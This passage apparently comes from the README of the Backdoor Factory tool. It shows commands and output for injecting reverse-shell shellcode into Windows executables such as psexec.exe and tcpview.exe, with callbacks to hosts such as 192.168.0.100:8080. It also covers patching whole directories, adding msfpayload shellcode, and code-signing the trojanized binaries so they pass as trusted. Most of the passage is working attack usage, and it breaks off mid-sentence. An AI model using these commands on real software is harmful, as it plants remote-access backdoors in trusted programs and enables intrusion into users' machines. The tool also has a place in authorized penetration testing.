     ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 
    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Creating Code Cave
    - Adding a new section to the exe/dll for shellcode injection
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch a directory of exes:
    ./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a
    ...output too long for README...

---

###User supplied shellcode:
    msfpayload windows/exec CMD='calc.exe' R > calc.bin
    ./backdoor.py -f psexec.exe -s user_supplied_shellcode -U calc.bin
    This will pop calc.exe on a target windows workstation. So 1337. Much pwn. Wow.

---
###PEcodeSigning

BDF can sign PE files if you have a codesigning cert. It uses osslsigncode.
Put your signing cert and private key in the certs/ directory.  Prep your certs using openssl commands from this blog post:
http://secureallthethings.blogspot.com/2015/12/add-pe-code-signing-to-backdoor-factory.html

Put your private key password in a file (gasp) as so (exactly as so): 
    
    echo -n yourpassword > certs/passFile.txt

Name your certs EXACTLY as follows:
	
    signingCert.cer => certs/signingCert.cer
    signingPrivateKey.pem => certs/signingPrivateKey.pem

Your certs/ directory should look excatly as so:
    
    certs
    ├── passFile.txt
    ├── signingPrivateKey.pem
    └── signingCert.cer

Enable PE Code Signing with the -C flag as so:

     ./backdoor.py -f tcpview.exe -s iat_reverse_tcp_inline -H 172.16.186.1 -P 8080 -m automatic -C


On successful run you should see this line in BDF output:

